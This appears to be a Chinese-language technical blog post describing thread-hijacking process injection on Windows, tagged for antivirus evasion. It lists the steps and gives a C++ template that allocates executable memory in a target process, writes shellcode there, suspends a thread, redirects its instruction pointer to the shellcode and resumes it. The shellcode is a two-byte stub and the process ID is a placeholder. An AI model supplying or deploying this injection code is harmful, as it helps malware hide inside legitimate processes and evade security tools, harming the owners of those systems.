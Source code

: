 ```yaml
---
layout: post
title: Thread Hijacking Inject
categories: Inject
description: Inject 之 Thread Hijacking
keywords: Windows，注入，免杀，Thread Hijacking
---
```


线程劫持注入技术

# 线程劫持注入

## 原理

利用线程劫持技术注入远程进程。

## 实现流程

1. `OpenProcess` 打开要注入的进程句柄 `targetProcessHandle` 
2.  `VirtualAllocEx` 在目标进程中分配可执行内存 `remoteBuffer`
3. `WriteProcessMemory` 将 `remoteBuffer` 中的 Shellcode 写入内存
4. 在目标进程中找到要劫持的线程ID。`CreateToolhelp32Snapshot`  创建快照并`Thread32Next` 枚举，获取要劫持的线程ID
5. `OpenThread` 打开要劫持的线程句柄`threadHijacked`
6. `SuspendThread` 挂起目标线程挂起目标线程
7. `GetThreadContext` 获取目标线程上下文
8. 将目标线程指令指针（`RIP`寄存器）指向 shellcode `remoteBuffer` 
9. `SetThreadContext` 设置被劫持线程的新上下文
10. `ResumeThread` 恢复被劫持线程



## 示例代码

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;
	
	DWORD targetPID = "这里填PID";
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);
	
	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}
	
	SuspendThread(threadHijacked);
	
	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);
	
	ResumeThread(threadHijacked);
}
```

